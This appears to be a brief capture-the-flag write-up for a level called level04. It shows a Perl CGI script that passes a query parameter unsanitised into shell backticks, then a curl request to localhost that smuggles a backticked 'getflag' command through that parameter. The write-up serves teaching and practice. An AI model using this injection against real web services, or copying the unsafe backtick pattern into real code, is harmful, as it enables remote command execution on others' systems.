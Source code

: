 We start by listing the files and finding a `level04.pl` file:

```bash
ls
```

Inside `level04.pl`, we see the following Perl script:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We can exploit this by sending a **crafted HTTP request** using `curl`:
```bash
curl "http://localhost:4747/level04.pl?x=\`getflag\`"
```

And we get our next flag !
